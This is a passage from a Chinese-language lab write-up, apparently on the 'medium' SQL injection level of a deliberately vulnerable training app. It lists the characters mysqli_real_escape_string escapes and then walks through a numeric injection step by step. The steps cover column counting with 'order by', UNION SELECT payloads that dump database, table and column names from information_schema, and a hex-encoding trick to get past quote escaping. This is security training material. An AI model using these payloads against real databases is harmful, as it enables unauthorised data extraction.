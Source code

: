 ```
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?> 
```

与low相比，增加了mysqli_real_escape_string函数对 特殊字符

+ \x00
+ \n
+ \r
+ \
+ '
+ "
+ \x1a

进行了转义。且改为了下拉菜单，防止在输入框中直接注入。

我们可以在burp抓包：

[![rSAkyq.png](https://s3.ax1x.com/2020/12/08/rSAkyq.png)](https://imgchr.com/i/rSAkyq)

1.判断注入类型。

报错：You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ```'\''``` at line 1

得出位数值型注入。这下mysqli_real_escape_string函数对敏感字符进行的过滤显得比较鸡肋了，数值型注入id不需要用 ',"等进行闭合，直接注入即可。

2.判断字段数。

id=1 order by 2&Submit=Submit   回显正常。

id=1 order by 3&Submit=Submit   错误，说明有2字段。

3.判断回显。

[![rSEfUO.png](https://s3.ax1x.com/2020/12/08/rSEfUO.png)](https://imgchr.com/i/rSEfUO)

4.查询数据库。

id=-1 union select 1,database()&Submit=Submit

5.查询表名。

id=-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database())&Submit=Submit

6.查询数据。

id=-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users')&Submit=Submit

查询失败。  syntax to use near ```'\'users\')'``` at line 1  因为 ' 被转义了。

可以将users转化为16进制绕过。

id=-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name=0x7573657273)&Submit=Submit

成功。
